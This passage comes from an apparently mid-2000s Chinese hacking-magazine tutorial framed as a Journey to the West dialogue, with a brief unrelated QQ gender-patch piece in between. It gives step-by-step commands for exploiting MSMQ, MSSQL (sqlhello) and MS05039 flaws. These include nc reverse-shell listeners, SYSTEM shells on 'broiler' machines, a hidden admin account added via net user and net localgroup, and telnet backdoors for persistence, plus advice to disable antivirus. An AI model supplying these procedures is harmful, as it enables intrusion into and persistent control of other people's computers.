



而且该工具还会提示 Win2k Server 或 AdvServer 的话，包数一般是 6 到 8。可能大家会发现这个漏洞的利用和别的不太一样，需要知道对方 NetBIOS 名。可用 `nbtstat -a IP` 获取，如图15；更方便的是 superscan 自带“工具”中的“查找主机名/IP”，如图16，括号里的就是 NetBIOS 名。

得到 NetBIOS 名后即可开工。假设已扫描到 192.168.1.8 开着 2103、2105、2107，可判断 MSMQ 服务开启。输入类似：`winmsmq0.3 192.168.1.8 2107 ... 520 8`，溢出成功后会在肉鸡上打开 520 端口，再用 nc.exe 连接 192.168.1.8:520 即可得到 system 权限 shell，如图17和图18。




## 五、MSSQL hello 溢出漏洞

刚才提到的多是 Windows 系统自身漏洞，溢出也可能出在其他软件。MSSQL Server 是很多服务器使用的数据库，其中 SQL Server 2000 SP2 以下存在溢出漏洞。使用阿D星晨的 VenusDLGScanner.exe 可以方便扫描 SQL Server 版本信息，如图19。



添加 IP 地址方式和其他扫描器差别不大，点击“扫描全部”开始。这里可以看到 192.168.1.8 上运行着 MSSQL Server，版本为 8.0.194。

中的版本号：



对照上表我们知道这是 SQL Server 2000 原始版本，没打补丁，那么我们使用 sqlhello2.exe 来进行简单直接的溢出。sqlhello2.exe IP 端口就是其用法。我们输入 `sqlhello2.exe 192.168.1.8 1433` 会直接得到一个 system 的 shell，如图20。当然，这个漏洞利用也有反向溢出的工具。sqlhello.exe 就可以做到，命令是：`sqlhello 目标机 SQL 服务端口 监听IP 监听端口`，例如我们首先在本地监听 520 端口：`nc -vv -l -p 520`，然后使用 `sqlhello 192.168.1.8 1433 192.168.1.123 520` 将溢出 192.168.1.8，令其发送一个 shell 到 192.168.1.123 的 520 端口，如图21。

```bash
sqlhello2.exe 192.168.1.8 1433
nc -vv -l -p 520
sqlhello 192.168.1.8 1433 192.168.1.123 520
```


图20



图21

溢出要注意的几点：

- 没有 100% 成功的溢出。
- 溢出程序容易被杀毒软件列为危险程序而遭受查杀，请关闭杀毒软件再使用。
- 反向溢出时，要注意到内网和外网的区别。本机 IP 地址可以使用 `ipconfig` 命令看到。

但是当你的 IP 地址是 192.168.1.123 或者是 10.0.0.1 这种 IP 的话，说明你没有外网可以访问到的 IP，这类 IP 地址属于保留 IP，用于局域网。除非要溢出的对象和你在一个局域网内，它的 IP 地址也是 192.168.1.* 或者是 10.0.0.*，那么你叫它发送 shell 到你的 IP 才可以成功。否则如果溢出对象是外网 IP，你叫它把 shell 发送到 192.168.1.123 的 520 端口是不行的，因为会无法访问。除非你也有合法的 IP，比如 61.61.61.61 一类的。

> “哇，我发现这么多登录来，今天讲的东西最过瘾，拿出个工具，找到有漏洞的机器，敲个命令我们就拿到对方的 shell。可以任意控制对方的机器了！”八戒老毛病又犯了，口水已经把键盘都打湿一半了。

悟空看大家很尽兴，也不敢多说，简单地总结一下：溢出漏洞的威力无疑是最大的，不过大家要注意几点。首先，漏洞的话，比如微软的 Windows 系统出现溢出漏洞了，最先考虑的自然是到 http://www.microsoft.com/china/technet/security/bulletin 去看安全公告。里面对每个漏洞的解释都会让大家澄清的。微软的惯例是在每个月的中旬出安全公告，而出了公告以后，牛人们研究漏洞写出溢出工具发布到网上，我们就可以下载来利用了。第二点也就相当重要了，哪里可以下载到最新最实用的溢出工具？个人推荐的是安全焦点，大家到攻击上层一栏去看看，http://xfocus.net/tools/12.html 是它的网址。最后呢，有一点要提醒的是，上面不少工具给出的只是源代码，需要编译成 exe 文件才可以使用，那么只能说要想成为一个真正的黑客，程序这一关首先得过，当然，现在还早，大家可以慢慢进化……

（本文涉及到的 Sasser 专用扫描工具、WINS 服务漏洞 ms04045、winasn.exe、winmsmq0.3、sqlhello2.exe，光盘有收录）

## QQ性别变！变！变！

晨曦

腾讯的 QQ，大家再熟悉不过了，哪个上网的人没有自己的 QQ 呢？QQ 可以玩出许多花样来，今天我就教大家改变自己的“性别”！首先下载“中天QQ变性补丁”，下载地址为：http://www.366tian.net/soft/DownSoft/get.php?softid=653&pathid=0，解压缩后如图1。



图1

关闭 QQ，双击“QQ变性补丁.exe”，出现软件主界面如图2。点击“浏览”找到你 QQ 安装目录下的 QQRes.dll 文件，点击确定，好了去更改自己的性别吧！



图2

（本文涉及到的软件中天QQ变性补丁，光盘有收录）

## 在shell的天空里遨游

躺在病床上，悟空在忿忿不平地思考：“不就是把脚崴了一下吗？到这破医院居然叫俺住X天。打石膏，还得住什么破院，这破防说不就有可能存在被破的危险。faint，要不是腿被石膏裹着影响形象，俺早就飞出去找观音姐姐办公室里那个漂亮的秘书聊天去了……”忽然惊雷般的一声巨响在悟空的耳边炸开：“大师兄，你今天好帅啊！我们慰问你来了。”抬头只见八戒那家伙提着一篮子香蕉、桃、苹果的，后面跟着一个秃顶穿西装的和尚和一个满脸大胡子的家伙也走了进来。悟空眼睛一闭：“无事不登三宝殿……直说吧，还有啊，秘书你过来一下，我这肩膀有点酸，给我捶捶……”

“我就说嘛，以大师兄你的智商，我们实在是耍不出什么把戏。那我们就先话实说了，是这样的，你也知道，上个月出了个 ms05039 的漏洞，拿来找肉鸡实在是方便极了，可是，得到 shell 后就不知道该做什么了，可沙师弟和师父，他们也都不知道……”悟空听后让他们先利用 MS05039 扫描工具扫描网段，设置 Start IP 与 End IP，Scan Control 各项包含主机名解析、可溢出提示、可溢出 IP 消息发送、随机扫描次序等。



使用和其它扫描器基本上没什么两样，单击蓝色开始按钮就开始扫描。很快扫描到一个 `192.168.1.8`，显示 `Vulnerable`（可溢出）。在扫描器中选中该行，右键可 `Copy IP to clipboard`，然后在 CMD 中监听端口：`nc -vv -l -p 1234`，再在漏洞工具目录执行：`ms05039 192.168.1.8 192.168.1.123 1234`，即可把 shell 反弹到本机 1234 端口。





悟空皱眉道：“嗯，因为到了这一步，我们拿到了对方的 shell 了，就可以在对方电脑上执行任意命令。使用 `dir` 命令可以查看文件，使用 `net user` 命令可以知道用户信息……”唐僧打断道自己更关心如何长期进入、如何上传运行木马等问题，众人继续讨论后续渗透与控制方式。

脸贱笑，明显听什么人教过木马这东西了，还想盗号，真是缺德啊。

“好了好了，我明白你们的意思了。入侵了别人的电脑，总得干点什么，是吧！？第一，要留条后路，即使人家打了补丁，下次我们还能进来；第二，如果别人有好东西，我们得搬回家啊；第三，我们有坏东西，要发给人家运行，得传过去啊。”悟空听了半天总结了这三点。

“对啊对啊！真是生我者父母，知我者悟空啊！”八戒又拍“猴”屁了。

飘飘然的悟空没忘记正事：“那现在我们就先来一点一点地看好了。第一，留后路，最简单的方法，是打开对方的 telnet 服务。”

“Telnet 服务是什么意思？”笨蛋唐僧又问这种白痴问题了。

“Telnet 是进行远程登录的标准协议和主要方式……在 Windows 系统中，用户将以具有图形界面的 Telnet 客户端程序与远程主机建立 Telnet 连接。”

“还是不懂……”沙僧和唐僧两个人异口同声，然后双双把目光投向悟空。

悟空眉头又一皱：“这个嘛，简单地说，打开 telnet 服务的机器会默认打开 23 端口，如果我们使用客户端 telnet.exe（Windows 自带），`telnet IP` 就可以连接到对方的电脑上，如果你有对方电脑上的帐号和密码，就可以获得一个 shell。”

“演示演示！”八戒看风头被抢，大声抗议。



“这样就打开 telnet 服务了？这么简单？”……

“这就要简单了，打开一个 CMD，输入 `telnet 192.168.1.8`，看看到什么结果！”



图4

“这是因为默认情况下，Windows 的 telnet 服务采用了 NTLM 认证……如果输入 y，就会将自己的帐号密码发送出去；如果输入 n，则会不发送……”

“那我的电脑上的帐号怎么可能和人家电脑上的帐号密码都一样啊？”唐僧按下了 y 却没反应，直接提示“失去了跟主机的连接”。

“这个简单了，我们可以这样，第一，把肉鸡加一个和我们一样的帐号；第二，在我们的电脑上加一个肉鸡上已存在的帐号，并且使用这个新的帐号去连接。”

```bash
net user 新用户名 密码 /add
net user test 123456 /add
net localgroup administrators test /add
net user test
```



图5

这时候，肉鸡上已经有了一个 test 的管理员用户，那么我们也给自己的电脑上使用同样的命令加一个用户……然后我们使用 runas 命令打开一个新的 CMD。完整命令是：`runas /user:test cmd.exe`。



图6

现在这个 cmd 是以 test 用户的身份来运行的，那么我们在这个 cmd 里工作就不怕 NTLM 验证这个拦路虎了。输入 `telnet 192.168.1.8`，当提示是否发送密码信息的时候，理直气壮地输入 `y`，并敲下回车，这次再看看结果吧！如图7。

